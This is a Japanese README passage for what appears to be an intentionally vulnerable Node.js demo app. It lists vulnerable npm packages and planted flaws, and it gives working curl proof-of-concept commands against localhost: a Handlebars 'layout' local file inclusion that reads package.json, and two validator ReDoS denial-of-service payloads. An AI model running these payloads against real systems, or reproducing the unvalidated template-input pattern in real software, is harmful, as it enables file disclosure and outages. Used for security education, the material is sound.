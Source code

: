 ### オープンソース依存関係の脆弱性

以下の脆弱なパッケージがあります：
- [Mongoose - バッファメモリ露出](https://snyk.io/vuln/npm:mongoose:20160116) - バージョン<=Node.js 8。デモ目的で、Dockerfileの`node`ベースイメージを`FROM node:6-stretch`に更新できます。
- [st - ディレクトリトラバーサル](https://snyk.io/vuln/npm:st:20140206)
- [ms - ReDoS](https://snyk.io/vuln/npm:ms:20151024)
- [marked - XSS](https://snyk.io/vuln/npm:marked:20150520)

### コード内の脆弱性

* オープンリダイレクト
* NoSQLインジェクション
* コードインジェクション
* コマンド実行
* クロスサイトスクリプティング（XSS）
* コード内のハードコードされた値による情報漏洩
* サーバ情報の露出によるセキュリティミスコンフィギュレーション
* 不安全なプロトコル（HTTP）通信

#### コードインジェクション

`/account_details`ページはHandlebarsビューとしてレンダリングされます。

このビューは、アカウント詳細を表示するGETリクエストと、アカウント詳細を更新するPOSTリクエストの両方で使用されます。いわゆるサーバーサイドレンダリングです。

フォームは完全に機能します。動作としては、`req.body`からプロファイル情報を受け取り、そのままテンプレートに渡します。これにより、攻撃者はリクエストから直接テンプレートライブラリに流れる変数を制御できることになります。

最悪の事態は起こらないと思うかもしれませんが、バリデーションが期待される入力を確認するために使われているにも関わらず、新たにオブジェクトに追加できるフィールド（例えば`layout`）を考慮していません。これをテンプレート言語に渡すと、ローカルファイルインクルージョン（パストラバーサル）脆弱性を引き起こす可能性があります。以下はその証明です：

```sh
curl -X 'POST' --cookie c.txt --cookie-jar c.txt -H 'Content-Type: application/json' --data-binary '{"username": "admin@snyk.io", "password": "SuperSecretPassword"}' 'http://localhost:3001/login'
```

```sh
curl -X 'POST' --cookie c.txt --cookie-jar c.txt -H 'Content-Type: application/json' --data-binary '{"email": "admin@snyk.io", "firstname": "admin", "lastname": "admin", "country": "IL", "phone": "+972551234123",  "layout": "./../package.json"}' 'http://localhost:3001/account_details'
```

実際、このコードにはもう一つ脆弱性があります。  
私たちが使用している`validator`ライブラリには、いくつかの既知の正規表現によるサービス拒否（DoS）脆弱性があります。その一つは、メールアドレスの正規表現に関連しており、`{allow_display_name: true}`オプションで検証すると、このルートでサービス拒否を引き起こす可能性があります：

```sh
curl -X 'POST' -H 'Content-Type: application/json' --data-binary "{\"email\": \"`seq -s "" -f "<" 100000`\"}" 'http://localhost:3001/account_details'
```

`validator.rtrim()` サニタイザーも脆弱で、これを利用して同様のサービス拒否攻撃を作成できます：

```sh
curl -X 'POST' -H 'Content-Type: application/json' --data-binary "{\"email\": \"someone@example.com\", \"country\": \"nop\", \"phone\": \"0501234123\", \"lastname\": \"nop\", \"firstname\": \"`node -e 'console.log(" ".repeat(100000) + "!")'`\"}" 'http://localhost:3001/account_details'
```
